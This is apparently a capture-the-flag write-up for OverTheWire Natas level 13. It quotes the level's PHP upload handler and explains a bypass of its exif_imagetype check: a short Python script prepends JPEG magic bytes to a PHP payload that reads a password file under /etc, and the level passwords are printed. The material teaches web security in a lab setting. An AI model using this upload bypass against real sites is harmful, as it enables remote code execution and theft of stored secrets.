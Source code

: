 Level #13 go to URL and find natas14 user password

- URL: http://natas13.natas.labs.overthewire.org/
- User: natas13
- Password: lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9

After navigating to URL an html page with a form with 4 inputs (2 type=hidden,1 type=file and 1 type=submit) and an anchor element with the text "View sourcecode" is loaded this time the page warns that only image files are accepted.  
Clicking on the anchor elements redirects to the source code of the php script being run by server. The code that was not modified includes the functions:
- genRandomString
- makeRandomPath
- makeRandomPathFromFilename
  
The only code modified is in the following code

```PHP
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    //This is the code that checks file uploaded is an image
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
```

The only thing enforcing that file uploaded is an image is the `exif_imagetype()` function, reading it's [documentation](https://www.php.net/manual/es/function.exif-imagetype.php) found out that this function works by "reding the first bytes of an image and confirming it's signature", but how many bytes does it read?

By searching found out [how to determine a file is a jpeg by reading it's bytes](https://coderanch.com/t/636057/java/figure-bytes-array-jpeg-file#:~:text=For%20JPEG%2C%20you%20need%20to,by%20the%20mime%20type%20for%20.) which is translatable to having the following bytes in a file xFF\xD8\xFF.

Made a python script to generate the fake php file.
```Python
jpeg_magic_numbers = b'\xFF\xD8\xFF'
 
with open("fake.php", "wb") as binary_file:
    binary_file.write(jpeg_magic_numbers)
    binary_file.write(bytes("<?php echo file_get_contents('/etc/natas_webpass/natas14'); ?>", "utf-8"))

```
  
Recreated the request with postman.
  
  
The password for natas14 is 
qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP

